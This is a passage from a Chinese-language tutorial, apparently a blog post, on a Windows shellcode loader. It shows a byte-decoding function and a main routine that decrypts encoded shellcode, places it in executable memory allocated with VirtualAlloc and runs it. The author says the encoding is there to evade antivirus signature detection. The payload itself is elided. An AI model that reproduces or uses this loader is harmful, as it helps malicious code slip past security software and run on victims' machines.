 ![](images/vs2.png)

#### decrypt_shellcode 函数
```cpp
// 解密shellcode函数
void decrypt_shellcode(unsigned char* shellcode, size_t size) {
  // 解密shellcode
  for (size_t i = 0; i < size - 1 /*最后一位为\0所以无需解密*/; i++) {
    if (shellcode[i] == 0x05) {
      shellcode[i] = 0x00;
    } else {
      shellcode[i] += 0x01;
    }
  }
}
```
解密函数不难理解，就是加密的反操作

### 执行shellcode
我们加密shellcode主要是为了逃避杀软的特征码搜索，但是经过处理的shellcode，肯定是无法执行的，所以我们编写了解密shellcode的函数 `decrypt_shellcode`，这样我们就可以带着处理过的shellcode，想要执行的时候只需解密就可以正常执行了。
```cpp
int main() {
  unsigned char shellcode[] ="..."; // 经过处理的shellcode
   // 解密shellcode
  decrypt_shellcode(shellcode, sizeof(shellcode));
  typedef void(__cdecl * Func)();
  void* p = ::VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE,
                           PAGE_EXECUTE_READWRITE);
  // copy shellcode to p
  memcpy(p, shellcode, sizeof(shellcode));
  Func code = (Func)p;
  code();
  system("pause");
  return 0;
}
```
执行shellcode的方法有很多，我这里只是其中的一种，有兴趣可以问问度娘其他的方法。这里我们切换为Release x64版本编译项目。
